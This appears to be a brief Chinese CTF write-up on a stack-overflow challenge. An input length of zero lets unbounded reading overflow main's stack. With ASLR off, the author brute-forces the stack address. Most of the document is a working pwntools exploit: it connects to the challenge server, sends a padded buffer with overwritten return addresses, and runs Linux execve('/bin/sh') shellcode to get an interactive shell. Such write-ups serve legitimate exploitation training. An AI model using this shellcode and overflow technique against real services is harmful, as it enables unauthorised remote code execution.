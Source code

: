 ![](./images/1.png)

当输入的长度为0时，根据以上代码逻辑将会一直读取直到读入换行，于是存在栈溢出，本题溢出点在main函数，有ecx影响，由于关了aslr，可以使用暴力破解，以4字节为单位很快就能跑出服务端地址：

![](./images/2.png)

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
p = remote("10.21.13.201",4455)
#p = remote("127.0.0.1",1234)
addrBase = 0xffffd62c
#addrBase = 0xffffd268
sc = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
#gdb.attach(p,"""
#        b *0x8048897
#        b *0x80488b8
#        continue
#        """)
#raw_input("#")
i=0
p.sendline('0')
addr = addrBase +i*4
log.info("addr :  "+hex(addr))
pl = 'a'*24+p32(0x08049050)+'b'*8+p32(addr+4)+'a'*4+p32(addr+4)+sc 
p.sendline(pl)
p.interactive()
````